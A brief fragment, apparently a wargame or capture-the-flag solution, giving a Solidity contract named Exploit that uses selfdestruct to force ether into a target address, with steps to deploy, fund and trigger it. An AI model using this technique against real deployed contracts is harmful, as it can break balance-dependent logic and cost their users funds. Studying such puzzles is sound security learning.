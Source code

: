 Deploy the following contract to the same network
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;


contract Exploit {

    receive() external payable{}

    function exploit(address _who) public {
        selfdestruct(payable(_who));
    }
}
```
send some eth to it;

call exploit()
